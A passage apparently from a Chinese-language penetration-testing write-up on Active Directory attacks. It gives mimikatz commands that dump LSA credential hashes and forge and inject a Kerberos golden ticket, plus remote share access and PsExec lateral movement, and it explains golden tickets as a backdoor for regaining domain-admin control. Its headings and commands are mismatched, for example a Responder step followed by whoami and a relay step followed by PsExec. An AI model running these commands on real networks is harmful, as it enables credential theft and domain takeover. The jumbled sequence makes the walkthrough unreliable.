 ```
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit > 1.txt
```

**2\. 获取可攻击的主机 (true)**

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmYgAqF3ia8QGP71leBsBfI4lMEmQl8AW0VmATqm1EdPzjFrQnmQLoyGw/640?wx_fmt=png)  

**3\. 开启 responder 监听**

```
whoami /all
```

```
mimikatz.exe "kerberos::golden /user:win7 /domain:safe-duck.com /sid:S-1-5-21-4065905668-3814866385-3259433788 /krbtgt:c4af830cd0ee19d893c652a3ad9f88b7 /ptt" exit
#伪造成功，查看票据
klist
```

**4\. 运行 Multirelay.py 脚本，做中继代理**

```
dir \\\\WIN-6JM3ECTM2CO.safe-duck.com\\c$
```

```
PsExec.exe \\\\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmR5Sz2MeBl6UJFpsKQEQzickgwxJTMhRFEmrFOXd9kTtrsV1cslmyX8g/640?wx_fmt=png)  

但是在日志里面已经获取到 hash 身份，也不算全部失败 (自我安慰)  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmCjA9NVib5O8HaukfkhTvtLKzBLwAQUJBX4pEXRXMefv0N72Esf5IPXw/640?wx_fmt=png)

```
whoami /all
```

**四、黄金票据攻击测试**
==============

黄金票据攻击，是一种为任意用户生成 TGT 票据的方法，属于一种后门。黄金票据生成，是生成有效的 TGT Kerberos 票据，并且不受 TGT 生命周期的影响（TGT 默认 10 小时，最多续订 7 天），这里可以为任意用户生成黄金票据，然后为域管理员生成 TGT，这样普通用户就可以变成域管理员。  

**黄金票据的制作条件：**

*   1\. 域名称
    
*   2\. 域的 SID
    
*   3\. 域控的 Krbtgt 账户的密码 hash 值
    
*   4\. 任意域用户名
    

制作 TGT 票据需要获取 Krbtgt 账户的密码 hash，而 Krbtgt 账户的密码 hash 存储在域控上。因此黄金票据攻击测试本身就是个无解的死循环，所以他并不是一种普通的攻击方式，该攻击方式其实是一种后门的形式，属于第二次进行攻击的方法，第一次拿到域管权限之后，需要将 krbtgt hash 进行保存，当第二次再来进行渗透攻击时，我们就可以使用该 hash 制作黄金票据，从而获得管理员权限。当然也可以通过抓取 / 嗅探等方式获取 krbtst 的 hash 进行常规的攻击。  
